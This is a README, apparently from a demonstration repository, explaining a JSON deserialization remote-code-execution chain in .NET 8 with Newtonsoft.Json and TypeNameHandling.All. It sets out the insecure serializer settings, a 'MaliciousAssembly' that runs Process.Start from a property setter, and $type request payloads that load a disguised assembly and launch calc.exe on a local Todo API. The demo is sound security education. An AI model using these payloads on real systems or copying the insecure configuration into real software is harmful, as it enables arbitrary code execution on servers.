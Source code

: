 # .NET 8 Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET. 

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-6.0#configure-json-deserialization-options-for-body-binding).

``` C#
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` C#
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  {"$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.



